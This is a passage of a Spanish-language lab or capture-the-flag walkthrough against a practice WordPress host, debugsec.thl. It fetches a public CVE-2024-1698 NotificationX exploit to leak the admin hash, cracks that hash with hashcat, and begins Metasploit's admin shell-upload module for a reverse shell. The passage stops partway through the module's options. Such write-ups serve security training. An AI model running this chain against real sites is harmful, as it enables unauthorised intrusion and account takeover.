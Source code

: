 ```bash
 | Version: 2.8.2 (100% confidence)

```

# Intrusión

Vemos que hay una vulnerabilidad en el plugin `NotificationX` y tiene asignado un cve **CVE-2024-1698.** Buscamos información sobre la vulnerabilidad y encontramos un exploit escrito en python, lo descargamos:

```bash
$ wget https://raw.githubusercontent.com/kamranhasan/CVE-2024-1698-Exploit/main/exploit.py
```

Modificamos la url para que sea nuestro servidor victima y modificamos el delay para que sea 1 segundo.

```bash
delay = 1

url = "http://debugsec.thl/wp-json/notificationx/v1/analytics"

```

Al terminar nos da que el usuario administrador es **wordpress** y su hash. Lo añadiremos a un fichero llamado hash para después intentar crackearlo con la herramienta `hashcat`. Usamos `-a 0` para que sea un ataque usando un diccionario y `-m 400` porque se trata de un hash en formato **Wordpress(MD5)** . Le indicamos el hash a romper y el diccionario.

```bash
echo '$P$BeoVY5FZYWg4j90BEh5Cme9j3Zamqx/' > hash

hashcat -a 0 -m 400 hash /usr/share/wordlists/rockyou.txt

$P$BeoVY5FZYWg4j90BEh5Cme9j3Zamqx/:mcartney
```

Obtenemos las credenciales de administrador del sitio. Ahora tenemos que conseguir una shell reversa. Para ello he usado un exploit de  `metasploit`:

```bash
$ msfconsole

msf6 > use exploit/unix/webapp/wp_admin_shell_upload

msf6 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Settin  Required  Description
              g
   ----       --------------  --------  -----------
   PASSWORD                   yes       The WordPress passwor
                                        d to authenticate wit
                                        h
   Proxies                    no        A proxy chain of form
                                        at type:host:port[,ty
                                        pe:host:port][...]
   RHOSTS                     yes       The target host(s), s
                                        ee https://docs.metas
                                        ploit.com/docs/using-
                                        metasploit/basics/usi
                                        ng-metasploit.html
   RPORT      80              yes       The target port (TCP)
   SSL        false           no        Negotiate SSL/TLS for
                                         outgoing connections
   TARGETURI  /               yes       The base path to the
```